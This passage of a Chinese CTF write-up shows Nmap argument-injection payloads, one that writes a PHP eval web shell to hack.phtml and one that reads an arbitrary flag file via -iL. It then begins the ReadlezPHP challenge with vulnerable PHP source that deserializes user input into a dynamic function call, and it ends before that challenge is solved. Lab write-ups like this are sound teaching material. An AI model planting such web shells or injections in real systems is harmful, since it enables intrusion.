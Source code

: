 ```shell
' <?php @eval($_POST["hack"]);?> -oG hack.phtml '
```

加上扫描的地址：127.0.0.1：

```shell
127.0.0.1 | ' <?= @eval($_POST["hack"]);?> -oG hack.phtml'
```

查看了**ChaMd5安全团队**给出的writeup后，可以使用`-iL`参数实现**Nmap**读取任意文件：

```shell
127.0.0.1' -iL ../../../../flag -o 1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201209110013141.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201209110132488.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzNzI5Ng==,size_16,color_FFFFFF,t_70)



## [NPUCTF2020]ReadlezPHP

查看源代码发现有链接指向时间

访问`http://3d0c9f1c-8c46-4548-8da6-6e7e7b41526a.node4.buuoj.cn:81/time.php?source`

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```
